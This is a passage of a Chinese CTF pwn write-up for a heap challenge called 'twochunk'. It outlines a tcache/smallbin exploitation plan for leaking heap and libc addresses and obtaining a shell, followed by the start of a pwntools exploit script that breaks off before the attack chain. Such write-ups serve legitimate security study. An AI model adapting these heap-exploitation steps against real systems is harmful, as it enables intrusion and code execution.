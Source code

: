 ```py
    add(3,0x48,'3'*0x2f, 0)

    query(3)

    p.interactive()
```
## twochunk
### 解题思路

1. 首先通过唯一`malloc`泄露堆地址（`calloc`申请会对堆块置零）
2. 其次把两个`0x90`块放入`smallbin`（`calloc`申请不会找`tcachebin`)
3. 把`0x23333000`伪造进`tcachebin`，并且利用选项五泄露`libc`地址
4. 利用选项六写入`getshell`的地址，最后利用选项七执行函数


### exp
```py
from pwn import *
import sys
import time
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"

filename = './twochunk'
elf = ELF(filename)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if len(sys.argv) == 1:
    p = process(filename)#, env={'LD_PRELOAD_PATH':'./libc.so.6'})
else:
    p = remote(sys.argv[1], int(sys.argv[2]))

def sla(x, y):
    return p.sendlineafter(x, y)

def sa(x, y):
    return p.sendafter(x, y)

def start(name, message):
    sa('name: ', name)
    sa('message: ', name)

def add(index, size):
    sla('choice: ', '1')
    sla('idx: ', str(index))
    sla('size: ', str(size))

def free(index):
    sla('choice: ', '2')
    sla('idx: ', str(index))

def edit(index, content):
    sla('choice: ', '4')
    sla('idx: ', str(index))
    sa('content: ', content)

def show(index):
    sla('choice: ','3')
    sla('idx: ', str(index))

if __name__ == "__main__":
    buf_addr = 0x23333000
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png